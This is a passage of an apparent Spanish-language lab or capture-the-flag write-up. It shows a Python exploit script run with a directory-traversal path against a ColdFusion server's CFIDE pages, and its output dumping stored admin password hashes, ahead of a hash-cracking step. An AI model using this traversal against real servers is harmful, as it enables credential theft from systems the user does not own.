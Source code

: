 ![[Pasted image 20240108102227.png]]

Al ejecutarlo obtenemos unos hashes(AES) los cuales podremos intentar crackear de manera OFFLINE:
```ruby
# python2 14641.py 10.129.36.166 8500 ../../../../../../../lib/password.properties
------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
------------------------------
trying /CFIDE/administrator/archives/index.cfm
title from server in /CFIDE/administrator/archives/index.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
------------------------------
trying /cfide/install.cfm
title from server in /cfide/install.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
------------------------------
trying /CFIDE/administrator/entman/index.cfm
title from server in /CFIDE/administrator/entman/index.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
------------------------------
trying /CFIDE/administrator/enter.cfm
title from server in /CFIDE/administrator/enter.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
```
### Cracking Hashes  
